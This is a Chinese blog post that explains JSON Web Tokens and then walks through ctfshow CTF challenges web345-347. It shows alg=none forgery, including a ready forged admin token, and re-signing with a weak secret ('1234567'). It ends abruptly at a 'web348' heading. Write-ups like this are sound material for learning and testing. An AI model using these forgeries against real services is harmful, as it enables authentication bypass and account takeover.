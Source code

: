 ```yaml
---
title: JWT
date: 2023-09-03T15:29:52+08:00
updated: 2023-06-13T22:35:03+08:00
categories: 
- 渗透测试
- 外网漏洞
---
```


## 什么是jwt

jwt全名json web token,用于创建具有可选[签名](https://en.wikipedia.org/wiki/Signature_(cryptography))和/或可选[加密](https://en.wikipedia.org/wiki/Encryption)的数据，其[有效负载](https://en.wikipedia.org/wiki/Payload_(computing))包含断言一些[声明的](https://en.wikipedia.org/wiki/Claims-based_identity)[JSON](https://en.wikipedia.org/wiki/JSON) . [使用私人秘密](https://en.wikipedia.org/wiki/Shared_secret)或[公钥/私钥](https://en.wikipedia.org/wiki/Public-key_cryptography)对令牌进行签名。其效果类似于我们常用的cookie,但是相较于cookie更具有扩展性；

## jwt的组成

jwt通常由三部分组成，**header**,**payload**以及**Signature**

[这三个部分使用Base64url Encoding [RFC]分别编码，并使用句点连接以生成 JWT：

```
const  token  =  base64urlEncoding ( header )  +  '.'  +  base64urlEncoding ( payload )  +  '.'  +  base64urlEncoding （签名）
```

生成的const再与secretkey联合生成token:

这个生成的令牌可以很容易地传递到html和http

## jwt的使用

在身份验证中，当用户使用他们的凭据成功登录时，将返回一个 JSON Web Token 并且必须保存在本地，而不是传统的创建会话的方法在服务器中并返回一个 cookie，对于无人值守的进程，客户端还可以通过使用预共享秘密生成和签署自己的 JWT 来直接进行身份验证，并将其传递给[OAuth](https://en.wikipedia.org/wiki/OAuth)兼容服务。

```
POST /oauth2/token
Content-type: application/x-www-form-urlencoded

grant_type=urn:ietf:params:oauth:grant-type:jwt-bearer&assertion=eyJhb...
```

如果通过了一个jwt断言，服务端就会生成access_token，并且传递应用；

## jwt的声明

payload:

```
iss: jwt签发者
sub: jwt所面向的用户
aud: 接收jwt的一方
exp: jwt的过期时间，这个过期时间必须要大于签发时间
nbf: 定义在什么时间之前，该jwt都是不可用的.
iat: jwt的签发时间
jti: jwt的唯一身份标识，主要用来作为一次性token,从而回避重放攻击。
```

header:

```
typ: 令牌类型(例如jwt)
cyp: content-type(内容类型)
alg: 消息验证使用的加密算法(通常设置为HMAC SHA256即HS256)
kid: key ID
x5c,x5u: 证书链及其url,用于判断签名的真实性
crit: 关键点，服务端必须要理解的标头列表，以验证令牌
```

## jwt的漏洞

某些库使用alg字段错误的验证令牌，例如:alg=none;同时还有jwt的cve

## 从题目探寻jwt攻击

题库采用ctfshow web入门jwt系列

## web345

由cookie值解码可得jwt的构成

```
header:
{"alg":"None","typ":"jwt"}
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0（去掉等号）
payload:
[{"iss":"admin","iat":1683806390,"exp":1683813590,"nbf":1683806390,"sub":"user","jti":"02b9328bfc9a37456e7af2592ee43fc3"}]
改为[{"sub":"admin"}]
```

提示我们使用admin

我们将user改为admin进行加密：

```
W3sic3ViIjoiYWRtaW4ifV0
```

拼接替换cookie访问/admin

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoiYWRtaW4ifV0
```

## web346-347

同样拿到jwt进行解码：

```
header:
{
  "alg": "HS256",
  "typ": "JWT"
}
payload:
{
  "iss": "admin",
  "iat": 1683808745,
  "exp": 1683815945,
  "nbf": 1683808745,
  "sub": "user",
  "jti": "1d68cb103232bb03ba8c72d59d5914c6"
}
算法改为了HS256,我们可以把alg改为none进行尝试；并且sub改为admin
```

用脚本跑出来不太行，还是利用弱口令1234567来加密

http://jwt.io

## web348
